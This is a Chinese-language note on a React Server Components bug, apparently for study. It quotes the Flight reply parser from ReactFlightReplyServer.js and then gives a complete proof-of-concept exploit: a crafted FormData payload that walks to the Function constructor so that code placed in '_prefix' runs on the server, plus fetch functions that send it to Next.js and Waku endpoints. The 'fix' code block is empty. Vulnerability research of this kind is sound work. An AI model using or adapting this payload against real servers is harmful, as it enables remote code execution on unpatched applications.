

# React 源码的 bug 笔记

## packages/react-server/src/ReactFlightReplyServer.js



```ts
// 【packages/react-server/src/ReactFlightReplyServer.js】
function parseModelString(
  response: Response,
  obj: Object,
  key: string,
  value: string,
  reference: void | string,
): any {
  if (value[0] === '$') {
    switch (value[1]) {
      case '$': {
        // This was an escaped string value.
        return value.slice(1);
      }
      case '@': {
        // Promise
        const id = parseInt(value.slice(2), 16);
        const chunk = getChunk(response, id);
        return chunk;
      }
      case 'F': {
        // Server Reference
        const ref = value.slice(2);
        // TODO: Just encode this in the reference inline instead of as a model.
        const metaData: {id: ServerReferenceId, bound: Thenable<Array<any>>} =
          getOutlinedModel(response, ref, obj, key, createModel);
        return loadServerReference(
          response,
          metaData.id,
          metaData.bound,
          initializingChunk,
          obj,
          key,
        );
      }
      case 'T': {
        // Temporary Reference
        if (
          reference === undefined ||
          response._temporaryReferences === undefined
        ) {
          throw new Error(
            'Could not reference an opaque temporary reference. ' +
              'This is likely due to misconfiguring the temporaryReferences options ' +
              'on the server.',
          );
        }
        return createTemporaryReference(
          response._temporaryReferences,
          reference,
        );
      }
      case 'Q': {
        // Map
        const ref = value.slice(2);
        return getOutlinedModel(response, ref, obj, key, createMap);
      }
      case 'W': {
        // Set
        const ref = value.slice(2);
        return getOutlinedModel(response, ref, obj, key, createSet);
      }
      case 'K': {
        // FormData
        const stringId = value.slice(2);
        const formPrefix = response._prefix + stringId + '_';
        const data = new FormData();
        const backingFormData = response._formData;
        // We assume that the reference to FormData always comes after each
        // entry that it references so we can assume they all exist in the
        // backing store already.
        // $FlowFixMe[prop-missing] FormData has forEach on it.
        backingFormData.forEach((entry: File | string, entryKey: string) => {
          if (entryKey.startsWith(formPrefix)) {
            // $FlowFixMe[incompatible-call]
            data.append(entryKey.slice(formPrefix.length), entry);
          }
        });
        return data;
      }
      case 'i': {
        // Iterator
        const ref = value.slice(2);
        return getOutlinedModel(response, ref, obj, key, extractIterator);
      }
      case 'I': {
        // $Infinity
        return Infinity;
      }
      case '-': {
        // $-0 or $-Infinity
        if (value === '$-0') {
          return -0;
        } else {
          return -Infinity;
        }
      }
      case 'N': {
        // $NaN
        return NaN;
      }
      case 'u': {
        // matches "$undefined"
        // Special encoding for `undefined` which can't be serialized as JSON otherwise.
        return undefined;
      }
      case 'D': {
        // Date
        return new Date(Date.parse(value.slice(2)));
      }
      case 'n': {
        // BigInt
        return BigInt(value.slice(2));
      }
    }
    switch (value[1]) {
      case 'A':
        return parseTypedArray(response, value, ArrayBuffer, 1, obj, key);
      case 'O':
        return parseTypedArray(response, value, Int8Array, 1, obj, key);
      case 'o':
        return parseTypedArray(response, value, Uint8Array, 1, obj, key);
      case 'U':
        return parseTypedArray(response, value, Uint8ClampedArray, 1, obj, key);
      case 'S':
        return parseTypedArray(response, value, Int16Array, 2, obj, key);
      case 's':
        return parseTypedArray(response, value, Uint16Array, 2, obj, key);
      case 'L':
        return parseTypedArray(response, value, Int32Array, 4, obj, key);
      case 'l':
        return parseTypedArray(response, value, Uint32Array, 4, obj, key);
      case 'G':
        return parseTypedArray(response, value, Float32Array, 4, obj, key);
      case 'g':
        return parseTypedArray(response, value, Float64Array, 8, obj, key);
      case 'M':
        return parseTypedArray(response, value, BigInt64Array, 8, obj, key);
      case 'm':
        return parseTypedArray(response, value, BigUint64Array, 8, obj, key);
      case 'V':
        return parseTypedArray(response, value, DataView, 1, obj, key);
      case 'B': {
        // Blob
        const id = parseInt(value.slice(2), 16);
        const prefix = response._prefix;
        const blobKey = prefix + id;
        // We should have this backingEntry in the store already because we emitted
        // it before referencing it. It should be a Blob.
        const backingEntry: Blob = (response._formData.get(blobKey): any);
        return backingEntry;
      }
    }
    switch (value[1]) {
      case 'R': {
        return parseReadableStream(response, value, undefined, obj, key);
      }
      case 'r': {
        return parseReadableStream(response, value, 'bytes', obj, key);
      }
      case 'X': {
        return parseAsyncIterable(response, value, false, obj, key);
      }
      case 'x': {
        return parseAsyncIterable(response, value, true, obj, key);
      }
    }
    // We assume that anything else is a reference ID.
    const ref = value.slice(1);
    return getOutlinedModel(response, ref, obj, key, createModel);
  }
  return value;
}
```

可以看到在解析 `Blob` 数据时逻辑如下：

```ts
case 'B': {
  // Blob
  const id = parseInt(value.slice(2), 16);
  const prefix = response._prefix;
  const blobKey = prefix + id;
  // We should have this backingEntry in the store already because we emitted
  // it before referencing it. It should be a Blob.
  const backingEntry: Blob = (response._formData.get(blobKey): any);
  return backingEntry;
}
```

测试漏洞用数据如下：

- 将 payload 包装成 FormData 格式，随着 http 请求传送
- React 源码会解析这个 payload
- 最终导致执行了这个特意构造的 `_prefix` 中的 JS 代码

```js
const payload = {
  0: "$1",
  1: {
    status: "resolved_model",
    reason: 0,
    _response: "$4",
    value: '{"then":"$3:map","0":{"then":"$B3"},"length":1}',
    then: "$2:then",
  },
  2: "$@3",
  3: [],
  4: {
    _prefix: "console.log(7*7+1)//",
    _formData: {
      get: "$3:constructor:constructor",
    },
    _chunks: "$2:_response:_chunks",
  },
}

const FormDataLib = require("form-data")

const fd = new FormDataLib()

for (const key in payload) {
  fd.append(key, JSON.stringify(payload[key]))
}

console.log(fd.getBuffer().toString())

console.log(fd.getHeaders())

function exploitNext(baseUrl) {
  fetch(baseUrl, {
    method: "POST",
    headers: {
      "next-action": "x",
      ...fd.getHeaders(),
    },
    body: fd.getBuffer(),
  })
    .then((x) => {
      console.log("fetched", x)
      return x.text()
    })
    .then((x) => {
      console.log("got", x)
    })
}

function exploitWaku(baseUrl) {
  fetch(baseUrl + "/RSC/foo.txt", {
    method: "POST",
    headers: fd.getHeaders(),
    body: fd.getBuffer(),
  })
    .then((x) => {
      console.log("fetched", x)
      return x.text()
    })
    .then((x) => {
      console.log("got", x)
    })
}

// Place the correct URL and uncomment the line
// exploitNext('http://localhost:3003')
// exploitWaku('http://localhost:3002')
```

后续修复如下：

```ts

```

## 参考资料

[Patch FlightReplyServer with fixes from ReactFlightClient #35277](https://github.com/facebook/react/pull/35277/files#diff-80176ba145466a6b4b583b8c2a66d815d792b3b50adb8acb39e75afa856daea1)
